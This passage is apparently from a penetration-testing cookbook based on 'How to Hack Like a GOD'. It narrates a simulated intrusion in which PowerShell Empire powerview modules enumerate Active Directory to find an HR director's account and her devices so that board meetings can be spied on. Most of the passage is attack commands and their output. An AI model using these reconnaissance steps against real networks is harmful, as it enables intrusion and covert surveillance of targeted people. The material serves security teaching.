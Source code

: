 # Leveraging GPO for Data Exfiltration

*Note: this section continues from the previous cookbook on Domain and Database Exploitation and follows demonstrations from the book "How to Hack Like a GOD: Master the Secrets of Hacking Through Real Life Scenarios" (continuing from page no. 113)*

So far, we’ve successfully achieved two out of our three goals. The final objective—spying on board members—should be relatively straightforward, given our deep access within the company. To infiltrate board meetings, we only need to target a single attendee. Since we’re already inside the HR domain, the HR Director seems like the ideal candidate. A quick search in Active Directory reveals the details we need:

```
(Empire: HRAgent) > usemodule situational_awareness/network/powerview/get_user
(Empire: get_user) > set Filter description=*HR*
(Empire: get_user) > run
Job started: Debug32_br6of

description      : HR Director
displayname      : Elise Jansen
userprincipalname: ejansen@GBHR.CORP
name             : Elise Jansen
objectsid        : S-1-5-21-1930387874-2808181134-879091260-1117
samaccountname   : ejansen
```

With Elise’s details in hand, we can track her devices by analyzing connection logs from the domain controller:

```
(Empire: HRAgent) > usemodule situational_awareness/network/powerview/user_hunter
(Empire: user_hunter) > set UserName ejansen
(Empire: user_hunter) > run
```

Among the output, we find two machines associated with Elise:

```
[...]
ComputerName : WKHR0076.GBHR.CORP
IPAddress    : 10.40.55.76
[...]
ComputerName : SPHR0098.GBHR.CORP
```

We could target both machines, but the presence of two devices piques our interest. Why does Elise need two computers? Could SPHR0098 be her personal laptop? To learn more, we’ll fetch data about each device using the get_computer module:

```
(Empire: HRAgent) > usemodule situational_awareness/network/powerview/get_computer
(Empire: get_computer) > set ComputerName SPHR0098
(Empire: get_computer) > set FullData True
(Empire: get_computer) > run
Job started: Debug32_myli4

description      : Surface PRO
CN=SPHR0098,CN=Surface,CN=Computers,DC=GBHR,DC=CORP
name             : SPHR0098
[...]
```
